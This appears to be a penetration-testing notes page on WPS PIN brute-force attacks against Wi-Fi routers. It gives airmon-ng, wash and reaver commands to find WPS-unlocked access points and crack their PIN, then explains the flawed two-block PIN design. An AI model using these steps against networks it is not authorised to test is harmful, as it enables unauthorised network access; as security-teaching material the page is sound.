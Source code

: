 # WPS pin attack

## Attack tree

```text
1 Verify wireless NIC
2 Scan for potential WPS vulnerable networks
3 Brute-force the WPS pin
```

## Example

### Verify wireless NIC

View and document wireless adapter:

```text
# airmon-ng
```

Create an interface that runs in monitor mode:

```text
# airmon-ng start wlan0
```
Write down interface name (something like `wlan0mon`)

### Scan for potential WPS vulnerable networks

Wash is included in the Reaver package:

```text
# wash -i wlan0mon
```

In the list are the BSSIDs (MAC address) of the access points, the channel, and the ESSID (network name), and whether 
the WPS protocol is locked (in other words, whether it is protected from WPS brute-force attacks). Look for a `no`.

### Brute-force the WPS pin

Using Reaver:

```text
# reaver -c <channel> -b <bssid> -i <interface> -vv
```

## Notes

Wi-Fi Protected Setup, or WPS, is a wireless standard protocol used by WPA and WPA2 protected networks that helps 
autoconfigure wireless clients with the wireless encryption password so that they do not need to input the password. 
WPS is commonly found in consumer appliances and may use in-band methods, such as using a personal identification 
number (PIN) during setup or pushing a button to initiate the network discovery process, or out-of-band methods such 
as near field communication (NFC), where proximity initiates the connection.

* Many wireless access points and routers have a WPS button that you can press to connect a wireless 
client to the network via the WPS protocol. After clicking the button, you then go to the client device (typically 
a laptop or a smartphone) and choose to connect to the wireless network. You are automatically connected without 
needing to input the wireless password because the wireless access point or router has communicated the configuration 
information to the client for you.
* As part of the WPS standard, wireless access points and routers that support WPS must have an 8-digit pin configured. 
This can be viewed on the wireless access point. When connecting the client to the wireless network, the pin can be 
supplied instead of the wireless password.

The problem with WPS is that the WPS–enabled router is vulnerable to having the WPS cracked due to the fact that the 
pin was originally designed as two 4-pin blocks. It is much quicker to crack two 4-pin blocks than it is one 
8-pin block.

## Tools

* [airmon-ng](https://aircrack-ng.org/doku.php?id=airmon-ng)
* [reaver](https://www.kali.org/tools/reaver/)
